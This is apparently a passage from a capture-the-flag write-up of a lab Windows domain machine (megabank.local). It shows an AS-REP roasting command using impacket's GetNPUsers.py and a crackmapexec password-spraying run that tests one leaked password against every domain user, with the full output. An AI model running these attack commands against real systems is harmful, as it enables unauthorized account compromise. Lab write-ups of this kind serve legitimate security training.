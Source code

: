 ASREPRoasting failed to find a user account that has the privilege "Does not require Pre-Authentication" set:

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py megabank.local/ -dc-ip 10.10.10.169 -usersfile userlist -no-pass -request -outputfile kerberos-users-found
```

## SMB Enumeration - Reused Password (Part 2)

Attempted to use credentials `marko:Welcome123!` to further enumerate SMB shares or attempt to run Keberos attack but these failed. Checked if the password could be resused for another user or if there is a user that can have there password reset.

```bash
crackmapexec smb 10.10.10.169 -u userlist -p Welcome123!          
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Guest:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\DefaultAccount:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\RESOLUTE$:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\MS02$:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\ryan:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\marko:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\sunita:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\abigail:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\marcus:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\sally:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\fred:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\angela:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\felicia:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\gustavo:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\ulf:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\stevie:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\claire:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\paulo:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\steve:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\annette:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\annika:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\per:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\claude:Welcome123! STATUS_LOGON_FAILURE 
```